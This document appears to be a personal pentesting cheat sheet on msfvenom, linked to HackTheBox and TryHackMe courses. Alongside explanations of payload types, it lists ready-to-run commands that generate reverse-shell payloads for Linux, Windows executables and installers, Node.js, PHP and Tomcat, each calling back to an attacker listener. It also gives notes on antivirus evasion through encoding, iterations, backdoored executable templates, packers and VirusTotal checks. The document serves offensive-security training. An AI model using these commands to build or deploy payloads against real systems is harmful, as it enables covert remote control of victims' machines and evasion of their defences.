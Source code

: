 # 🐍 msfvenom 🐍

[![shells_and_payloads](../../../../_badges/htb/shells_and_payloads.svg)](https://academy.hackthebox.com/course/preview/shells--payloads)
[![fileuploadattacks](../../../../_badges/htb/fileuploadattacks.svg)](https://academy.hackthebox.com/course/preview/file-upload-attacks)
[![introtoshells](../../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)
[![metasploitexploitation](../../../../_badges/thmp/metasploitexploitation.svg)](https://tryhackme.com/room/metasploitexploitation)

<div class="row row-cols-lg-2"><div>

msfvenom is a tool of the [metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md) framework to generate payloads for reverse shells. We can customize payloads according to:

* 🎠 the program executing the payload <small>(PHP, python...)</small>
* 🏡 the target operating system
* 🛡️ the presence and configuration of a firewall
* 🔫️ the presence and configuration of an antivirus
* ...

```ps
$ msfvenom --list payloads
$ msfvenom --list payloads | grep meterpreter
```
</div><div>

msfvenom is often used with the [msfconsole](/cybersecurity/red-team/tools/frameworks/metasploit/_files/msf_handler.md) to catch them and pop a meterpreter shell <small>(see Metasploit framework, in short, an upgraded shell)</small>.

Metasploit separated **staged** payloads from **inline** payloads. The former is involving two steps: a simple payload <small>(called stage/stager)</small> is sent, which then request the rest of the payload. They are mainly used when there is a restriction on the size of the payload.

In Metasploit, the `_` is replaced with a `/` for staged payloads.

* `php/meterpreter_reverse_tcp`: inline/single
* `php/meterpreter/reverse_tcp`: staged
</div></div>

<hr class="sep-both">

## 🐸 Common options 🐸

<div class="row row-cols-lg-2"><div>

**-p** to define the payload to use.

```ps
$ msfvenom -p cmd/unix/reverse_netcat [...]
```

**LHOST/LPORT** to define where the target will connect back.

```ps
$ msfvenom [...] LHOST=tun0 LPORT=4444
```

**-f** to define the format of the output. For instance, raw code.

```ps
$ msfvenom [...] -f raw
$ msfvenom [...] R # same for -f RAW
```
</div><div>

**-e** to define the encoding. It's mainly used to bypass firewall or reduce the size of the payload.

```ps
$ msfvenom [...] -e php/base64
```
</div></div>

<hr class="sep-both">

## 📌 Some payloads 📌

All examples are asking the target to connect back to `tun0` IP at the port `4444`.

<div class="row row-cols-md-2 mt-3"><div>

* **Linux** (.elf / ...)

```bash
# execute /bin/bash -p
$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
# Generate a .elf opening a reverse shell (TCP)
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf
# Output a command (RAW) opening a reverse shell with netcat
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=4444 -f raw
```

* **Windows** (.exe / .msi / ...)

```bash
# Generate a .exe opening a reverse shell (TCP)
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o shell.exe
# Generate a malicious installer (msi)
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f msi -o shell.msi
```
</div><div>

* **Node.js**

```bash
# Generate a .js opening a reverse shell (TCP)
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=tun0 LPORT=4444 -o shell.js
```

* **PHP**

```bash
# very unstable shell, not recommended
$ msfvenom -p php/reverse_php LHOST=tun0 LPORT=4444 -o revshell.php
# meterpreter
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -o revshell.php
```

* **Tomcat**

```bash
# works with Tomcat 7.8
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=4444 -f war -o revshell.war
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

Payload Encoding: make the payload comptabible with different architectures and help with antivirus evasion.

* Shikata Ga Nai (SGN): good but still detected by modern antivirus. `-e x86/shikata_ga_nai`
* Use iterations to make it harder to detect: `-i 10`
* Password-protected archives are an additional antivirus evasion technique
* backdoored executable: use executable templates to hide the code
* Packers are also an alternative: [polypack](https://jon.oberheide.org/files/woot09-polypack.pdf)
</div><div>

Other options:

* `-a x86`: explicit architecture
* `--platform windows`: explicit platform
* `-k`: with backdoored executable, the original executable still runs as it was. If started from a terminal, a new terminal will (still) pop.
* `-x xxx.exe`
* `-o xxx.exe`

Test on Virus Total: `msf-virustotal -k <API key> -f xxx.exe`
</div></div>
